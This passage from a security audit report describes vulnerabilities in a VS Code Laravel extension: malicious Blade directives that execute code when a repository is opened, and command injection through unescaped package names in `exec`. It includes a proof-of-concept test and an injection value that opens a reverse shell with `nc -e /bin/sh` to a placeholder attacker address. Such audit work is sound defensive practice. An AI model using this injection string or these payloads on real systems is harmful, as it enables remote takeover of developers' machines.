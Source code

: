 **Vulnerability Rank**: High

**Currently Implemented Mitigations**:
- The extension only scans registered directives but does not block malicious implementations.

**Missing Mitigations**:
- No checks to prevent malicious directive logic (e.g., `eval()`/`system()`).

**Preconditions**:
- Repository contains a Blade service provider with malicious directives.

**Source Code Analysis**:
The extension runs Blade compiler analysis:
```php
Helpers.runLaravel("$out = []; foreach (app(BladeCompiler::class)->getCustomDirectives() as $name => $customDirective) { ... }", ...)
```
Malicious directives like `Blade::directive('malicious', function() { system('id'); })` execute here.

**Security Test Case**:
1. Create a repository with a Blade service provider defining `system('echo "ATTACK" > /tmp/vscode_attack')`.
2. Open the repository in VS Code.
3. Verify `/tmp/vscode_attack` contains "ATTACK".


---

#### Vulnerability 4: Command Injection via Unsanitized Repository Metadata

**Description**:
The extension constructs system commands using unescaped repository metadata (e.g., package names). This allows injection into command-line execution contexts.

**Impact**:
Arbitrary command execution with VSCode process privileges, enabling full system compromise.

**Vulnerability Rank**: Critical

**Currently Implemented Mitigations**: None.

**Missing Mitigations**:
- Input sanitization.
- Safe API usage (e.g., `execFile` with parameters).
- Sandbox execution.

**Preconditions**:
- Extension executes system commands using repository-derived input.

**Source Code Analysis**:
Vulnerable code example:
```javascript
exec(`npm install ${repoPackageName}`, ...); // repoPackageName from attacker-controlled package.json
```
Setting `repoPackageName` to `'; nc -e /bin/sh attackerIP 1234 #` executes a reverse shell.
